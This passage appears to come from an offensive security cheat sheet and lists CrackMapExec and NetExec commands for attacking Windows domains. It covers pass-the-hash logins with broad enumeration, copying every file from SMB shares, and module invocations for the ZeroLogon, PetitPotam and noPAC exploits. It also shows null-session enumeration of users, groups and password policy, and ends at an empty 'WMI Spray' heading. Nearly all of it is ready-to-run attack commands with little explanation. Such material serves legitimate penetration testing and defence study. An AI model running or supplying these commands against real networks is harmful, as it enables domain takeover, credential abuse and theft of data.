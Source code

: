Pass the hash:

```
crackmapexec smb CIDR/IP -d targetdomain.tld -u username -H lm-hash:nt-hash \
--shares \
--sessions \
--disks \
--loggedon-users \
--users \
--groups \
--computers \
--local-groups \
--pass-pol
```

#### Dump Files

Using the option `-o READ_ONLY=false` all files will be copied on the host

```
crackmapexec smb targets.txt -u 'user' -p 'pass' -M spider_plus -o READ_ONLY=false
```

## NetExec

ZeroLogon:

```
nxc smb <ip> -u '' -p '' -M zerologon
```

PetitPotam:

```
nxc smb <ip> -u '' -p '' -M petitpotam
```

noPAC:

```
nxc smb <ip> -u 'user' -p 'pass' -M nopac
```

Map Network Hosts:

```
nxc smb 192.168.1.0/24
```

Checking if Null Session is enabled on the network, can be very useful on a Domain Controller to enumerate users, groups, password policy etc:

```
nxc smb 10.10.10.161 -u '' -p ''
nxc smb 10.10.10.161 --pass-pol
nxc smb 10.10.10.161 --users
nxc smb 10.10.10.161 --groups
```

WMI Spray:
